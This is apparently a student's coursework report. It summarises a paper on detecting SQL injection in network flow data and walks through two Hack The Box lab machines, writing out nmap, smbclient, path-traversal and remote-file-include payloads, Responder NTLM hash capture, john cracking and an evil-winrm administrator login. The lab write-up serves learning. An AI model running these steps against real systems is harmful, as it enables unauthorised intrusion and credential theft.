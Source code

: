 # Goal line

## x. Summaries

### Karvinen 2025: Start Your Research with a Review Article

In this article, it talks about review articles which are basically condensed versions of the literature.

It has tiers such as JUFO 1, 2 or 3 and the publication channel is listed on JUFO: https://jfp.csc.fi/jufoportal

It's best if it's fresh and not older than 2 years.

https://scholar.google.com/ncr 

Is a good place to find articles. Search `<subject> + word: "review"`

You don't need to pay for the articles and PDF is usually in the search results

### Choosing an JUFO article to summarize

I chose this article: https://tampere.chronoshub.io/?fq=subjectarea%3A1700&start=260

From within it, I chose the `SQL injection attack detection in network flow data` by `Ignacio Samuel Crespo-Martínez, Adrián Campazas-Vega, Ángel Manuel Guerrero-Higueras, Virginia Riego-DelCastillo, Claudia Álvarez-Aparicio, Camino Fernández-Llamas,`

ISSN: 0167-4048

Volume 127

It describes how SQL injections are a significant portion of security problems in web apps. It is OWASP top 3 2021.

They gathered network flow data from SQLIAs.

There have been similar work before them but and got high accuracy in predicting attack patterns. But this is all network-layer packets. 

They tried to do flow data which is how fast packets are sent on a network and their flow. The packets within the same flow have similarities such as IP addresses, etc. 

A study before them "Sarhan et al. (2020)" did flow-based study but only achieved 25% detection rate.

The article is a bit long (11 pages) so I will skim through majority of the pages and summarize the basic idea.

They looked at SQLIA injections through insecure inputs and used NetFlow to monitor the packets.

They trained a machine-learning model based on the gathered flow data.

They got high reliability from the trained models in predicting attacks, with the best models achieving 96% accuracy in predicting SQL injection attacks.


## a. Done

## b. HTB Tier 0: Dancing

First we spawn the machine and I have connected to it using my kali linux via OpenVPN connectino.

<img src="h7.1.png" alt="img"/>

<img src="h7.2.png" alt="img"/>

Now I will nmap all the ports. `nmap -A -T4 -p- -sS -sV -O 10.129.221.51`

`-sS` = half-open and fast scan
`-sV` = service version
`-O` = OS version
`-p-` = all ports
`-A` = Aggressive 

- Task 1 & 2: with a short google search we find that the 3 letter acronym for SMB is the server message block which is a port on 445

- Task 3: the service name for port 445 was found using the `-sV` flag which means service version.

<img src="h7.3.png" alt="img"/>

and it says `microsoft-ds`

- Task 4 & 5: According to a quick Google search, we can do `smbclient -L <host>` to list available shares, and we can find 4.

<img src="h7.4.png" alt="img"/>

Let's try access them.

- Task 6: I also tried `smbclient //10.129.221.51/WorkShares -N` according to another Medium guide by ibrahim atasoy and got an interactive shell with 4 folders.

I got access to the WorkShares directory.

<img src="h7.5.png" alt="img"/>

- Task 7: we can use `get <filename>` to download files
<img src="h7.6.png" alt="img"/>

We will download the worknotes.txt using `get worknotes.txt`

It is downloaded into the folder we launched smbclient from and we can read it `cat worknotes.txt`

<img src="h7.7.png" alt="img"/>

Nothing interesting yet.

Now when we go back to the James' directory, we find the flag. 

<img src="h7.8.png" alt="img"/>

The flag reads:

<img src="h7.9.png" alt="img"/>


## c. HTB Tier 1: Responder

I connect to hack the box machine.

<img src="h7.10.png" alt="img"/>

- Task 1: it is asking us to visit the website with the IP address of the box: `10.129.141.210` but we get a blank page with the domain name being `unika.htb` 

- Task 2: it is asking us what scripting language is used to generate the page

I believe I was running into an error with the unloaded webpage so I looked at a writeup. Indeed I havve to first associate the domain name with the target IP address by editing `/etc/hosts` and add the IP with unika.htb

For some reason the website loads very slowly no matter what method I tried so I'm continuing this exercise with a write up and explaining the processes in my own words as it takes more than a few minutes for the website to refresh.

Source of the writeup by Benjamin Tan on Medium

The website uses php. This can be found when we click on languages and it show the .php

- Task 3: the URL parameter used to load different language versions of the page is `page=french.html` so it's page.

<img src="h7.11.png" alt="img"/>

- Task 4: local file include vulnerability is when you let the user access local files on the machine via URL 

In this case `../../../../../../../../windows/system32/drivers/etc/hosts` is the right exploit.

- Task 5: remote file include is when you can access another computer on the same network using the current computer 

In this case the exploit would be: `//10.10.14.6/somefile`

- Task 6: NTLM stands for `New Technology LAN Manager` which is a Microsoft auth protocol that is vulnerable according to Huntress.com

- Task 7: responder is a tool in kali linux used to capture netBios protocol and poison them. It is essentially asking us to do man in the middle attack using responder.

`-I` is the flag for my IP address

`?page=//<my attacker ip>/RANDOM` I will use for remote file include exploit to try get the website to request something from my IP to try and grab a file.

The responder will then request for credentials. It will then give the authentication hash for admin account

- Task 8 & 9: password cracker is john the ripper

We will use john to crack the hash. It seems to be an nltmv2 hash 

The cracked hash is `badminton`

- Task 10: There is a WinRM port open on 5985

- Task 11: We can access it using Evil-winrm and find the flag

`evil-winrm -i 10.129.141.210 -u administrator -p badminton`

and cd to find the flag.txt

<img src="h7.12.png" alt="img"/>

This exercise was very interesting. It is unfortunate that the website couldn't load for me but I learned a lot of the different methodologies I have to juggle in between to find exploits.


References:

https://terokarvinen.com/review-article/

https://www.sciencedirect.com/science/article/pii/S0167404823000032

https://medium.com/@agvask/youre-using-nmap-all-wrong-3d8a5ff189e

https://nmap.org/book/man-version-detection.html

https://medium.com/@ibo1916a/smbclient-command-2803de274e46

https://medium.com/@ibo1916a/smbclient-command-2803de274e46

https://medium.com/@cyber_magix/hack-the-box-starting-point-tier-1-responder-e5c810afd83a

https://www.huntress.com/cybersecurity-101/topic/what-is-ntlm#:~:text=NTLM%20stands%20for%20New%20Technology,somewhere%20in%20the%20authentication%20chain

https://www.kali.org/tools/responder/

https://github.com/lgandx/Responder

https://cyberhound.tech/htb-responder-lessons-learned-not-a-standard-walkthrough/